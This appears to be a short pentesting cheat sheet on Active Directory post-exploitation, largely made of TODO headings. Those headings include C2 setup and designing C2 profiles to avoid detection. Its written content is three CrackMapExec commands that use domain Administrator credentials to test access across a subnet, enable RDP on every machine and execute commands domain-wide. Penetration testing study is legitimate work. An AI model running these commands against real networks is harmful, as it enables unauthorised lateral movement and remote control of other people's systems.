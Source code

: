 # AD Post-Exploitation

## Authentication spraying

TODO

### Check access to all the machines of the domain

Having valid credentials of `Administrator` in the `DC`, we can use the following command to check if we have access to all the machines in the domain:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password'
```

We can see how all the users are `(Pwn3d!)`.

### Activate RDP in all the machines of the domain

In case of wanting to enable the `RDP` service in all the machines of the domain we can do the following:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password' -M rdp -o action=enable
```

#### Execute commands in all the machines of the domain

In case of wanting to execute commands in all the machines of the domain, we can use the following command:

```bash
cme smb 10.10.10.0/24 -u 'Administrator' -p 'password' -x 'whoami'
```

## MITRE AT & CT Framework for Pentesters

TODO

## Understanding the C & C for Active Directory Pentesting

TODO

## Comparison Matrix of C2 Servers

TODO

## Setting up Cobalt Strike and Sliver-c2 framework

TODO

## Designing C2 Profiles to Avoid Detections

TODO
